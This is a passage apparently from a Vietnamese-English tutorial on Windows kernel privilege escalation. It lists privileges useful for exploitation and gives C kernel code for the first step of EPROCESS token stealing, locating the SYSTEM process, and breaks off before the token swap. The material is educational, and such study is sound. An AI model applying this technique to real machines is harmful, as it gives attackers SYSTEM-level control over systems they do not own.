 Common privileges critical cho exploitation:

| Privilege | Constant | Description |
|-----------|----------|-------------|
| SeDebugPrivilege | 20 | Debug programs |
| SeLoadDriverPrivilege | 10 | Load/unload drivers |
| SeTakeOwnershipPrivilege | 9 | Take ownership of files/objects |
| SeRestorePrivilege | 18 | Restore files/directories |
| SeBackupPrivilege | 17 | Backup files/directories |
| SeImpersonatePrivilege | 29 | Impersonate clients |
| SeAssignPrimaryTokenPrivilege | 3 | Replace process token |

---

## Practical Exploitation: Token Stealing

Token stealing là classic privilege escalation technique. Idea: replace current process token với SYSTEM token.

### Technique 1: Token Stealing via EPROCESS

**Step 1: Find SYSTEM process (PID 4)**

```c
PEPROCESS pSystemProcess = NULL;
NTSTATUS status;

// Method 1: Lookup by PID
status = PsLookupProcessByProcessId((HANDLE)4, &pSystemProcess);

// Method 2: Walk process list
PEPROCESS pCurrentProcess = PsGetCurrentProcess();
PLIST_ENTRY pListEntry = (PLIST_ENTRY)((PUCHAR)pCurrentProcess + ACTIVEPROCESSLINKS_OFFSET);
PLIST_ENTRY pHead = pListEntry;

do {
    PEPROCESS pProcess = (PEPROCESS)((PUCHAR)pListEntry - ACTIVEPROCESSLINKS_OFFSET);
    HANDLE pid = PsGetProcessId(pProcess);

    if ((ULONG_PTR)pid == 4) {
        pSystemProcess = pProcess;
        break;
    }

    pListEntry = pListEntry->Flink;
} while (pListEntry != pHead);
```

